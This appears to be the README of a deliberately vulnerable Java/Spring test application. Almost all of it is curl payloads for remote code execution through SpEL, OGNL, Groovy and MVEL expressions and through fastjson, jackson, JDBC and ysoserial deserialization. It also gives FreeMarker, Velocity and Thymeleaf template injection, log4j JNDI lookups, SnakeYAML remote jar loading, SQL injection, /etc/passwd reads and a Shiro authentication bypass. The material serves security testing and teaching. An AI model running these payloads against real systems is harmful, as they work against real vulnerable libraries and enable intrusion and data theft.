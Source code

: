 ### 脚本执行

#### ScriptEngineManager

```
curl 127.0.0.1:8080/script/javascript -d 'expression=java.lang.Runtime.getRuntime().exec("open /System/Applications/Calculator.app")'
```

#### EL

```
curl 127.0.0.1:8080/el/parse -d 'expression=Runtime.getRuntime().exec("open /System/Applications/Calculator.app")'
```

#### groovy

```
curl 127.0.0.1:8080/groovy/parse -d 'expression="open /System/Applications/Calculator.app".execute()'
```

#### ognl

```
curl 127.0.0.1:8080/ognl/parse -d 'expression=#a%3d(new java.lang.ProcessBuilder(new java.lang.String[]{"open", "/System/Applications/Calculator.app/"})).start()'
```

#### spel

普通执行

```
curl 127.0.0.1:8080/spel/parse -d 'expression=T(java.lang.Runtime).getRuntime().exec("open /System/Applications/Calculator.app")'
```

读取输出: 用getErrorStream()读取stderr

```
curl 127.0.0.1:8080/spel/parse -d 'expression=new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("bash", "-c", "whoami").start().getInputStream(), "utf8")).readLine()'
```

class加载

```
curl 127.0.0.1:8080/spel/parse -d 'expression=T(org.springframework.cglib.core.ReflectUtils).defineClass("Foo",T(org.springframework.util.Base64Utils).decodeFromString("XXX"),new+javax.management.loading.MLet(new+java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()'
```

RMI

```
curl 127.0.0.1:8080/spel/parse -d 'expression=new+javax.management.remote.rmi.RMIConnector(new javax.management.remote.JMXServiceURL("service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc"),new java.util.Hashtable()).connect()'

curl 127.0.0.1:8080/spel/parse -d 'expression=T(java.lang.System).setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true") %2B new javax.management.remote.rmi.RMIConnector(new javax.management.remote.JMXServiceURL("service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc"), new java.util.Hashtable()).connect()'
```

#### mvel

```
curl 127.0.0.1:8080/mvel/parse -d 'expression=Runtime.getRuntime().exec("open /System/Applications/Calculator.app")'
```

### 反序列化

#### JDBC

socket factory

```
curl 127.0.0.1:8080/drivermanager/connect -d 'url=jdbc:postgresql://localhost:5432/testdb?socketFactory%3dorg.springframework.context.support.ClassPathXmlApplicationContext%26socketFactoryArg=http://127.0.0.1:8000/bean-exec.xml'
```

ssl factory

```
echo S | ncat -l -vv -p 5432

curl 127.0.0.1:8080/drivermanager/connect -d 'url=jdbc:postgresql://localhost:5432/testdb?sslfactory%3dorg.springframework.context.support.FileSystemXmlApplicationContext%26sslfactoryarg=http://127.0.0.1:8000/bean-exec.xml'
```

#### readObject()

```
ysoserial CommonsCollections6 "open /System/Applications/Calculator.app" > test
curl 127.0.0.1:8080/object/parse --data-binary @test -H 'Content-Type: text/plain'
rm -f test
```

#### fastjson

```   
curl 127.0.0.1:8080/fastjson/parse -d 'json={"@type":"org.apache.commons.proxy.provider.remoting.RmiProvider","host":"127.0.0.1",port:"1099","name":"Exploit"}'

curl 127.0.0.1:8080/fastjson/parse -d 'json={"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1:1389/Exploit","autoCommit":true}'
```

#### jackson

```
curl 127.0.0.1:8080/jackson/parse -d 'json=["com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource",{"jndiLocation":"ldap://127.0.0.1:1389/Exploit"}]'
```

#### xstream

```
curl 127.0.0.1:8080/xstream/parse -H 'Content-Type: text/xml' -d @test.xml
```

#### xmldecoder

```
curl 127.0.0.1:8080/xmldecoder/parse -H 'Content-Type: text/xml' -d @test.xml
```

#### jodd-json

```
curl 127.0.0.1:8080/jodd/parse -d 'type=com.mchange.v2.c3p0.JndiRefForwardingDataSource&json={"jndiName":"ldap://127.0.0.1:1389/Exploit","loginTimeout":0}'
```

### 模板渲染

#### velocity

```
curl 127.0.0.1:8080/velocity/eval -d 'username=#set($exp%3d"");$exp.getClass().forName("java.lang.Runtime").getRuntime().exec("open /System/Applications/Calculator.app")'
```

#### freemarker

JythonRuntime需要本地有class: https://tttang.com/archive/1412/

```
curl 127.0.0.1:8080/freemarker/unsafe -d 'template=<#assign value%3d"freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("open /System/Applications/Calculator.app")</@value>'

curl 127.0.0.1:8080/freemarker/unsafe -d 'template=<#assign value%3d"freemarker.template.utility.Execute"?new()>$${value("open /System/Applications/Calculator.app")}'

curl 127.0.0.1:8080/freemarker/unsafe -d 'template=${"freemarker.template.utility.Execute"?new()("open /System/Applications/Calculator.app")}'
```

eval模式

```
curl 127.0.0.1:8080/freemarker/eval -d 'username="freemarker.template.utility.Execute"?new()("open /System/Applications/Calculator.app")'
```

写文件

```
curl 127.0.0.1:8080/freemarker/eval -d 'username="freemarker.template.utility.ObjectConstructor"?new()("java.io.FileWriter","/tmp/test.txt").append("123").close()'
```

读文件

```
curl 127.0.0.1:8080/freemarker/unsafe -d 'template=<#assign+value="freemarker.template.utility.ObjectConstructor"?new()("java.io.FileReader", "/etc/passwd")>${"freemarker.template.utility.ObjectConstructor"?new()("java.util.Scanner", value).next()}'
```

执行SPEL

```
curl 127.0.0.1:8080/freemarker/unsafe -d 'template=${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(java.lang.Runtime).getRuntime().exec(\"open /System/Applications/Calculator.app\")").getValue()}'
```

#### thymeleaf模板注入

https://github.com/veracode-research/spring-view-manipulation

```
curl 'http://127.0.0.1:8080/thymeleaf/path?lang=__%24%7BT(java.lang.Runtime).getRuntime().exec(%27%6F%70%65%6E%20%2F%53%79%73%74%65%6D%2F%41%70%70%6C%69%63%61%74%69%6F%6E%73%2F%43%61%6C%63%75%6C%61%74%6F%72%2E%61%70%70%27)%7D__::.xx'
```

### 其他漏洞

#### MyBatis

```
curl '127.0.0.1:8080/mybatis/select' -d "name=abc' and 1=1;--"
```

#### log4j漏洞

```
curl 127.0.0.1:8080/log4j -d 'log=${jndi:ldap://127.0.0.1:1389/a}'
```

#### rmi client

启动RMI服务器

```
ysoserial ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "open /System/Applications/Calculator.app"
```

执行客户端查询

```
curl 127.0.0.1:8080/registry/lookup -d 'ip=127.0.0.1&port=1099&name=MyService'
```

#### jndi lookup

```
curl 127.0.0.1:8080/jndi/lookup -d 'url=ldap://127.0.0.1:1389/a'
```

#### snake yaml

```
curl 127.0.0.1:8080/snakeyaml/parse -d 'yaml=!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1/payload.jar"]]]]'
```

### 其他接口

1. 测试/actuator接口
2. 测试 alwaysUseFullPath 认证绕过漏洞: http://rui0.cn/archives/1643
   * 直接访问 /shiro/auth 会提示认证失败
   * 使用 /shiro/no-auth/%2e%2e/auth 可以绕过认证

